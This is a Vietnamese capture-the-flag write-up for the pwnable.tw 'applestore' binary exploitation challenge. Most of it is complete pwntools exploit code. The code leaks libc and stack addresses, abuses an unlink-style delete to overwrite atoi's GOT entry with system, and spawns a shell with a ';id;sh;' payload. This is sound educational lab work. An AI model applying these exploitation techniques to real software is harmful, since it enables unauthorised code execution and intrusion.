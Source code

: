 # applestore

Bài này mình thấy khá là hay luôn, mình đọc wu sml :(( đúng nghĩa mới thấm được. xin loi vi su ngungok nay


Oke thì bài này mình vừa làm vừa note, vừa tham khảo: [1](https://drx.home.blog/2019/04/16/pwnable-tw-applestore/) và [2](https://blog.srikavin.me/posts/pwnable-tw-applestore/)

soure thì mở ida lên đọc nhea, do thời gian cấp bách sắp test nên mình sẽ làm nhanh gọn lẹ vào vấn đề chính note lúc giải. 

Mình thấy 1 bug ở chỗ sau khi pass được checkout và có ip8 với giá 1$ thì khi ta delete nó sẽ gặp trường hợp sau:

```shell

Item Number> $ 27
Remove 27:f\x90f\x90f\x90VS\x83\xec\x8b\$\x10e\xa1\x0c from your shopping cart.

00:0000│ esp 0xff8c3690 —▸ 0x8048f98 ◂— push edx /* 'Remove %d:%s from your shopping cart.\n' */
01:0004│     0xff8c3694 ◂— 0x1b
02:0008│     0xff8c3698 —▸ 0xf7d6000a ◂— nop 

------------------------------------------------

00:0000│ esp 0xff8c3690 —▸ 0x8048f98 ◂— push edx /* 'Remove %d:%s from your shopping cart.\n' */
01:0004│     0xff8c3694 ◂— 0x1a
02:0008│     0xff8c3698 —▸ 0x92cc948 ◂— 'iPhone 6'

```

Bug ở chỗ là item lại cho phép nhập tới 22 bytes, mà name lại ngay trên stack => ta có thể overwrite để leak được libc

```python
from pwn import *

binary = context.binary = ELF("./applestore_patched")
libc = ELF("./libc_32.so.6")
r = process(binary.path)
#gdb.attach(r, api=True)

payload = b""

def Add(item):
    r.sendlineafter('> ', '2')
    r.sendlineafter('> ', item)

for i in range(20):
    Add('2')
for i in range(6):
    Add('1')

r.sendlineafter('> ', '5')

log.info("Atoi got: " + hex(binary.got['atoi']))
r.sendlineafter('ok? (y/n) > ', 'y')


payload = b'27' + p32(binary.got['atoi']) #+ p32(0)*3
r.sendlineafter('> ', '3')
r.sendlineafter(b'> ', payload  )
leak_atoi_runtime_addr = r.recvline().split(b" from")[0].split(b"27:")[1]

atoi_offset = libc.symbols['atoi']
log.info("offset atoi: " + hex(atoi_offset))
libc.address = u32(leak_atoi_runtime_addr) - atoi_offset
log.info("Libc base: " + hex(libc.address))

bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']

log.info("system: " + hex(system))
log.info("binsh: " + hex(bin_sh))

r.interactive()

```


Oke sau khi leak libc thì ta sẽ leak tiếp stack tính ebp, mình nói cách thức trc, còn lý do thì để đi exploit hết rồi nói tiếp

Ở đây sẽ leak environ, rồi dựa vào offset so với ebp => ebp address


```shell
với libc.sym['environ'] 
ta có [*] environ ??? : 0xf7f6adbc

pwndbg> x 0xf7f6adbc
0xf7f6adbc <environ>:	0xffd9316c

53:014c│     0xffd9316c —▸ 0xffd950e1 ◂— 'SHELL=/bin/bash'


pwndbg> print $ebp
$1 = (void *) 0xffd93068
pwndbg> p 0xffd9316c - 0xffd93068
$2 = 260 (= 0x104)

```

đây là ebp của stack frame hàm delete, leak để làm gì thì sau rồi tính tiếp.

```shell
log.info("environ ??? : " + hex(libc.sym['environ']))


payload = b'27' + p32(libc.sym['environ']) #+ p32(0)*3
r.sendlineafter('> ', '3')
r.sendlineafter(b'> ', payload  )

leak_environ_addr = r.recvline().split(b" from")[0].split(b"27:")[1]

log.info("environ addr: " + hex(u32(leak_environ_addr)))
ebp_addr_delete = u32(leak_environ_addr) - 0x104

log.info("ebp addr delete stack frame addr: " + hex(ebp_addr_delete))


```

thì giờ mình đã biết lý do vì sau phải leak ebp. 

```shell
 v4 = *(v2 + 8);                // ebp - 0xc
      v5 = *(v2 + 12);          // got atoi() + 0x22
      if ( v5 )
        *(v5 + 8) = v4;         // got atoi() + 0x1a =  ebp - 0xc
      if ( v4 )
        *(v4 + 12) = v5;        // ebp = got atoi() + 0x22
```

lý do mà ebp = got + 0x22 là do, sau khi từ hàm delete trở về handler thì ta nhận thấy con trỏ nptr ta nhập vào với read, nó đang nằm ở ebp - 0x22, nên để pass -0x22 và ghi vào địa chỉ got của atoi địa chỉ hàm system thì yah. 

### exploit

```python
from pwn import *

binary = context.binary = ELF("./applestore_patched")
libc = ELF("./libc_32.so.6")


if args.REMOTE:
    r = remote("chall.pwnable.tw", 10104)
else:
    r = process(binary.path)
    #gdb.attach(r, api=True)

payload = b""

def Add(item):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b'> ', item)

for i in range(20):
    Add(b'2')
for i in range(6):
    Add(b'1')

r.sendlineafter(b'> ', b'5')

log.info("Atoi got: " + hex(binary.got['atoi']))
r.sendlineafter(b'ok? (y/n) > ', b'y')


payload = b'27' + p32(binary.got['atoi']) #+ p32(0)*3
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'> ', payload  )
leak_atoi_runtime_addr = r.recvline().split(b" from")[0].split(b"27:")[1]

atoi_offset = libc.symbols['atoi']
log.info("offset atoi: " + hex(atoi_offset))
libc.address = u32(leak_atoi_runtime_addr) - atoi_offset
log.info("Libc base: " + hex(libc.address))

bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']
log.info("system: " + hex(system))
log.info("binsh: " + hex(bin_sh))

####################################################

log.info("environ ??? : " + hex(libc.sym['environ']))
payload = b'27' + p32(libc.sym['environ']) #+ p32(0)*3
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'> ', payload  )

leak_environ_addr = r.recvline().split(b" from")[0].split(b"27:")[1]

log.info("environ addr: " + hex(u32(leak_environ_addr)))
ebp_addr_delete = u32(leak_environ_addr) - 0x104

log.info("ebp addr delete stack frame: " + hex(ebp_addr_delete))

####################################################

payload = b'27' + p32(0)*2  + p32(ebp_addr_delete - 0xc) + p32(binary.got['atoi'] + 0x22)
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'> ', payload  )
log.info("atoi got(): " + hex(binary.got['atoi']))


payload =  p32(system)  + b";id;sh;"
r.sendafter(b'> ', payload  )


r.interactive()


```

còn lý do tại sao ";sh" là do trước đó nó còn cái quái gì ấy nên phải làm thế để pass qua mớ dư thừa phía trước.


Bài này mình thấy hay ở chỗ:
- thứ quan trọng lại k lưu luôn vào heap. mà lại để trên stack
- thêm nữa các stack nó liền kề nhau tuy nhiên **item number** lại cho nhập tận 22 bytes, => overwrite mất các stack phía trên. 
- việc delete() bằng cách thay đổi con trỏ, hmmm maybe nó là tính năng như bị thay đổi tác dụng kể từ khi thg quan trọng lại nằm trên stack.

Các bước khai thác :
- leak libc với printf %s
- leak stack eviron => ebp addr
- lợi dụng delete bằng cách thay đổi con trỏ để => thay đổi old ebp => read vào địa chỉ got của 1 hàm, thay đổi nó. 

